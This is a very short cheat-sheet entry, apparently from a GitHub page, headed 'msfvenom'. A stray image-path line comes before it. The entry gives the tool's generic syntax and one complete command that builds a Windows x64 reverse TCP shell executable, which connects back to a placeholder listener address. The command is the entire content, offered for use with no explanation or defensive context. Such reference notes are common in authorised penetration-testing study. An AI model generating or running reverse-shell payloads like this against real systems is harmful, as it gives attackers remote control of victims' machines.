 # msfvenom

msfvenom -p <PAYLOAD> <OPTIONS>

msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>

